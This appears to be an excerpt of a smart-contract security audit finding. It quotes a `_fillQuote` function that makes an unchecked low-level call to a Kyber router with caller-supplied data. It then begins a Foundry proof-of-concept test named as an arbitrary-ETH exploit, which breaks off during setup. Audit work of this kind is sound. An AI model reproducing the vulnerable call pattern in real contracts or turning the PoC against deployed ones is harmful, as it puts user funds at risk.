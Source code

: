 ```javascript
if (tokenIn == Constants.ETH) {

if (msg.value != amountIn) {

revert AmountError();

}

(bool success, ) = kyberRouter.call{value: msg.value}(targetData);

if (!success) {

revert CallFailed();

} else {

amountIn =  _resolveTokenValue(tokenIn, amountIn);

IERC20(tokenIn).forceApprove(kyberRouter, amountIn);

kyberRouter.call(targetData);

IERC20(tokenIn).forceApprove(kyberRouter, 0);

}

}

}

```

  

### PoC: How a malicious contract could exploit the `_fillQuote` function to cause financial loss or contract manipulation.

  

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol"; // Import the Forge testing library for unit tests
import "../src/PrelaunchPoints.sol"; // Import the PrelaunchPoints contract to be tested
import "../src/mock/MockERC20.sol"; // Import the MockERC20 contract for token mock-ups

contract TestArbitraryETHExploit is Test {
    // Declare state variables for contracts and addresses
    PrelaunchPoints public prelaunchPoints;
    MockERC20 public mockToken;
    MockERC20 public WETH;
    address public exchangeProxy = 0x01fd869eBC05D8aD3F65a978D0a1307D406Ce627; // Address for exchangeProxy, should be updated with the real address

    address[] public allowedTokens; // Array of allowed tokens for the PrelaunchPoints contract

    function setUp() public {
        // Deploy MockERC20 contracts for testing
        mockToken = new MockERC20("Mock Token", "MTK");
        WETH = new MockERC20("Wrapped ETH", "WETH");

        // Mint initial token supply to this contract
```